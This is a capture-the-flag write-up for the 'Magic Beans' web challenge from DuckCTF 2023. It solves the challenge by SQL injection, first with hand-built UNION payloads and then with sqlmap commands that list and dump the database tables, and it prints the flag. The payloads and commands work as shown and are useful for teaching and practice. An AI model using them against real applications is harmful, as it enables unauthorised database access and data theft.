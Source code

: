 ```yaml
---
layout: post
title: Magic Beans - DuckCTF 2023
date: 2023-08-11T00:00:00.000Z
description: Hidden beneath this strange jelly bean themed website is a flag; a flag hidden within a table aptly named Flag, and sprinkled letter-by-letter along single character columns titled 'a', 'b', 'c', 'd', ...
author:	javad 
categories:
  - ctf
  - write-ups
  - web
---
```


We're presented with a largely static, single-page site - save for one input field that doesn't seem to be processed on the client side. The challenge description also draws special attention to 'columns' and 'tables'. Given that there aren't any HTML tables in the source, instinct says this might involve a database.

If we try a classic single-quote injection (`'`) we see the quote suspiciously disappear. Adding on both a semi-colon to terminate the SQL statement and a comment afterwards (`'; -- `)  we see that vanish as well! Clearly, the backend is handling this input differently from regular text.

We know from the challenge description that we need to read from a table called Flag (in the database). A good way is to tack this on to the input we're already getting (all the delicious beans) using a UNION attack. This is where some googling and trial-and-error comes in to craft just the right payload. Here's what we came up with:

```sql
' UNION ALL SELECT a, b, c, d, e FROM Flag; -- 
```

Be aware that there is some **input validation on the client side**! Submitting certain characters or too many characters may not work. Instead, try making the POST request using a tool like [Insomnia](https://insomnia.rest/) or [Postman](https://www.postman.com/).

Some notable observations about this payload:

- Make sure to have a space after the comment (` -- `), injection is finicky.
- We use `UNION ALL SELECT` instead of `UNION SELECT`, just to make sure that no duplicate rows are removed (although that's unlikely in this situation).
- We know which columns and tables to we want thanks to info from the challenge description.
- We only select five columns (`a, b, c, d, e`), since a `UNION SELECT` will only work if the number of columns appended matches the number we're already getting. Any more or any less will give us 'No results found.' indicating our payload failed. 

A good way to figure out the number of columns we need to `UNION SELECT` is to test each of the following statements, one at a time, until one works. One of these statements should succeed, even if we don't know the names of the columns/table. 

```
' UNION ALL SELECT NULL -- 
' UNION ALL SELECT NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL -- 
...
```

Our functioning payload from before should give us a new bean entry at the very bottom, with the letters 'u', 'a', 'c', visible (part of the flag format `quack{}`). Nice! Rotating through the alphabet of course could give us the flag, but that seems rather tedious. Instead, we can concatenate all the columns in the table Flag in a payload like this:

```sql
~' UNION ALL SELECT NULL, CONCAT(a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w), NULL, NULL, NULL FROM Flag; -- 
```

Some trial-and-error tells us that columns a-w are valid. Substituting the concatenated columns into the second union-selected column instead of the first will show the flag where the bean name would usually be (in nice big letters). Adding a tilde at the beginning (`~`) is just to clear out all other search results (since none of the bean names includes a `~`).

**Flag**:  `quack{J3lly_83lly_ru5H}`

## Using sqlmap

While we can totally craft our own payloads, using an automated tool can be far easier. [Sqlmap](https://sqlmap.org/) is awesome, and allows us to solve this challenge without any of the hints given in the challenge description.

Let's take this from the top. First, let's check if injection is possible. The following command specifies the URL, the form data (which is one search parameter), and states that we are making a POST request.

```
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST
```

The output tells us injection is possible! We can now add on `--dbs` to get the names of all databases.

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --dbs
```
```
...

available databases [2]:
[*] beantome
[*] information_schema
```

Other than the usual 'information_schema', 'beantome' is the only database of interest. Let's see what tables are inside ...

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --tables -D beantome
```
```
...

Database: beantome
[2 tables]
+-------+
| Beans |
| Flag  |
+-------+
```

Hmm, two interesting tables. I'm guessing that all our delicious bean flavours are inside 'Beans' so let's turn our attention and dump the contents of 'Flag'.

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --dump -T Flag -D beantome
```
```
...

Database: beantome
Table: Flag
[1 entry]
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| a | b | c | d | e | f | g | h | i | j | k | l | m | n | o | p | q | r | s | t | u | v | w |
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| q | u | a | c | k | { | J | 3 | l | l | y | _ | 8 | 3 | l | l | y | _ | r | u | 5 | H | } |
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
```

**Flag**:  `quack{J3lly_83lly_ru5H}`